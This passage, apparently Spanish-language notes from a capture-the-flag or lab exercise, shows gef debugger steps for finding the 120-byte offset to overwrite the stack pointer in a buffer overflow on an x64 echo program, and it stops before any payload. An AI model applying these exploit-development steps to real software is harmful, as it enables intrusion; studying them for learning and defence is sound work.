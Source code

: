     - creamos un pattern de 150 caracteres
    
        ```bash
        gef➤ pattern create 150
        [+] Generating a pattern of 150 bytes (n=4)
        aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma
        [+] Saved as '$_gef0'
        ```

    - lanzamos el script otra vez y pegamos los caracteres

        ```bash
        gef➤ r
        What do you want me to echo back? aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaata
        aauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma
        ```

    - el programa peta una vez mas pero el valor del 
```bash
 $rsp 
```
 a cambiado. Miramos el offset con el commando

        ```bash
        gef➤  pattern offset $rsp
        [+] Searching for '$rsp'
        [+] Found at offset 120 (little-endian search) likely
        ``` 

        Aqui vemos que tenemos que entrar 120 caracteres antes de sobre escribir el **rsp**.

    - Probamos con 120 A y 8 B. /!\ cuidado que como es una maquina x64 tenemos que poner 8 B y no 4.

        ```bash
        python -c '120*"A"+8*"B"'
        AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
        AAAABBBBBBBB

        gef➤ r
        What do you want me to echo back? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
        AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB
        #Output
        $rsp   : 0x00007fffffffde98  →  "BBBBBBBB"
        $rbp   : 0x4141414141414141 ("AAAAAAAA"?)
        $rsi   : 0x00000000004052a0  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
        ```

    - añadimos 8 C para saber donde caen la cosas despues del **rsp**

        ```bash
        python -c '120*"A"+8*"B"+8*"C"'
        AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
        AABBBBBBBBCCCCCCCC
